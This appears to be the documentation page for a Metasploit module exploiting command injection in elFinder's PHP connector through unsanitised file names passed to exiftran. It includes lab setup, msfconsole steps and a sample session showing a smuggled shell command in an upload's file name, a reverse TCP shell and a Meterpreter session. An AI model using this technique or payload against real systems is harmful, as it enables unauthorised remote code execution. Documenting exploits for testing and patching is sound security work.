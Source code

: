 ## Description

  This module exploits a command injection vulnerability in elFinder
  versions prior to 2.1.48.

  The PHP connector component allows unauthenticated users to upload
  files and perform file modification operations, such as resizing and
  rotation of an image. The file name of uploaded files is not validated,
  allowing shell metacharacters.

  When performing image operations on JPEG files, the filename is passed
  to the `exiftran` utility without appropriate sanitization, causing
  shell commands in the file name to be executed, resulting in remote
  command injection as the web server user.

  The PHP connector is not enabled by default.

  The system must have `exiftran` installed and in `$PATH`.


## Vulnerable Software

  [elFinder](https://studio-42.github.io/elFinder/) is an open-source file
  manager for web, written in JavaScript using jQuery and jQuery UI.

  This module has been tested successfully on elFinder 2.1.47 on Ubuntu.

  Enable the PHP connector:

  ```
  mv php/connector.minimal.php-dist php/connector.minimal.php
  ```

  Install required `exiftran` utility:

  ```
  apt-get install exiftran
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection`
  3. Do: `set rhosts <IP>`
  4. Do: `run`
  5. You should get a new session

## Options

  **TARGETURI**

  The base path to elFinder (default: `/elFinder/`)


## Scenarios

  ```
  msf5 > use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection 
  msf5 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set rhosts 172.16.191.253
  rhosts => 172.16.191.253
  msf5 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set targeturi /elFinder-2.1.47
  targeturi => /elFinder-2.1.47
  msf5 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set verbose true
  verbose => true
  msf5 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > check
  [*] 172.16.191.253:80 - The target service is running, but could not be validated.
  msf5 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > run
  
  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] Uploading payload 'CDj7j1.jpg;echo 6370202e2e2f66696c65732f43446a376a312e6a70672a6563686f2a202e6b50555871684d5a2e706870 |xxd -r -p |sh& #.jpg' (1894 bytes)
  [*] Triggering vulnerability via image rotation ...
  [*] Executing payload (/elFinder-2.1.47/php/.kPUXqhMZ.php) ...
  [*] Sending stage (38247 bytes) to 172.16.191.253
  [*] Meterpreter session 1 opened (172.16.191.165:4444 -> 172.16.191.253:35564) at 2019-03-08 21:57:18 -0500
  [!] Tried to delete .kPUXqhMZ.php, unknown result
  [*] No reply
  [*] Removing uploaded file ...
  [+] Deleted uploaded file
  
  meterpreter > getuid
  Server username: www-data (33)
  meterpreter > sysinfo
  Computer    : ubuntu
  OS          : Linux ubuntu 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64
  Meterpreter : php/linux
  meterpreter > 
  ```

